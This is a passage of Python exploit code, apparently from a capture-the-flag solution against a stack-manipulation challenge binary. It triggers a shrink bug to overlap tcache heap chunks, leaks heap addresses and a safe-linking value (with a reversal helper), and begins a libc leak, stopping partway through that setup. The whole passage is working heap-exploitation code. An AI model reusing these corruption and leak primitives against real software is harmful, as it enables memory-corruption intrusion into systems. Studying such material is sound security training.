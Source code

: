 ```python
shrink() # Shrink to reset
push(convert(0x21)) # Setup for tcache next_size check

# Set size to 0
for i in range(0x4):
    pop() 

shrink() # Shrink to trigger the bug
shrink() # Shrink twice to switch chunks

for i in range(0x3):
    push(convert(i+1))

push(convert(0x41)) # Overflow into next size
pop() # Pop
shrink() # Malloc into Overlapped chunk
push(convert(0x41)) # Do the setup for overlap
push(convert(0x5)) # next ptr
push(convert(0x6)) # tcache random number
shrink() # Shrink to switch and set up the leak

# Get the Leaks by popping.
randleak = eval(pop())
heapleak = eval(pop()) << 12
unsign = lambda u: u & ((1<<64)-1) # Safe Linking Reversal  
info(f'Heap leak: 0x{heapleak:02x}')
info(f'Rand leak: 0x{unsign(randleak):02x}')

# ========= Libc Leak ============
# Fixes overlapping 0x41 chunks
push(convert(xor(0)))
push(convert(randleak))
shrink()
pop()
pop()
pop()
push(convert(0x21)) # Make sure overlaps correctly

# Get a size almost out of tcache
for i in range(0x60-0x4):
    push(convert(0x4+i))

# Set size to 0
for i in range(0x60):
    pop()

shrink() # Trigger 0x20 chunk
push(convert(1)) # Get new 0x20 chunk below last chunk
shrink() # Switch back to old 0x20 chunk
pop() # Clean Size

# Prepare for 0x40 chunk
push(convert(1))
push(convert(2))
push(convert(3))
push(convert(0x21))

# Set size to 0x8, for chunk size 0x50
for i in range(0x4):
    push(convert(4+i))
# Allocates 0x50 chunk below new 0x20 chunk
# used for overlapping later

```